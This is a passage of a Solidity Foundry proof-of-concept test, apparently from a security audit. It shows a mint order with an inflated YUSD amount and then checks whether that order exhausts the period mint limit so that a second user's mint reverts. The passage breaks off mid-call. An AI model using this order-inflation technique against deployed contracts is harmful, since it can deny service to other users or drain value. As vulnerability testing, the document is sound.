 ```solidity
        // Mint with inflated YUSD amount - this should mint only the actual value
        minting.mint(
            OrderLib.Order({
                orderType: OrderLib.OrderType.MINT,
                userWallet: user1,
                collateralAsset: address(usdc),
                collateralAmount: COLLATERAL_AMOUNT,
                yusdAmount: INFLATED_YUSD_AMOUNT,
                slippageAdjustedAmount: YUSD_AMOUNT * 99 / 100,
                expiry: block.timestamp + 1 hours,
                nonce: 1,
                additionalData: ""
            }),
            signature1
        );
        vm.stopPrank();

        // Check user1's final balance
        uint256 user1FinalUSDCBalance = usdc.balanceOf(user1);
        uint256 user1FinalYUSDBalance = yusd.balanceOf(user1);

        // Calculate how much YUSD was actually minted
        uint256 actualMinted = user1FinalYUSDBalance - user1InitialYUSDBalance;

        // User1 should only get YUSD equal to collateral value (1,000 YUSD)
        assertEq(user1InitialUSDCBalance - user1FinalUSDCBalance, COLLATERAL_AMOUNT, "USDC not transferred correctly");

        console.log("USDC spent by user1:", COLLATERAL_AMOUNT / 1e6);
        console.log("YUSD received by user1:", actualMinted / 1e18);

        // Attempt to mint with user2 with a small amount
        // This should fail if the entire period limit was consumed
        bytes memory signature2 = signMintOrder(
            OrderLib.OrderType.MINT,
            user2,
            address(usdc),
            COLLATERAL_AMOUNT,
            YUSD_AMOUNT,
            YUSD_AMOUNT * 99 / 100,
            block.timestamp + 1 hours,
            1
        );

        vm.startPrank(user2);
        usdc.approve(address(minting), COLLATERAL_AMOUNT);

        // Try to mint with user2
        // If vulnerable, this will revert with LimitReached
        // If not vulnerable, this will succeed
        bool mintFailed = false;
        try minting.mint(
            OrderLib.Order({
                orderType: OrderLib.OrderType.MINT,
                userWallet: user2,
                collateralAsset: address(usdc),
                collateralAmount: COLLATERAL_AMOUNT,
                yusdAmount: YUSD_AMOUNT,
                slippageAdjustedAmount: YUSD_AMOUNT * 99 / 100,
                expiry: block.timestamp + 1 hours,
                nonce: 1,
                additionalData: ""
            }),
```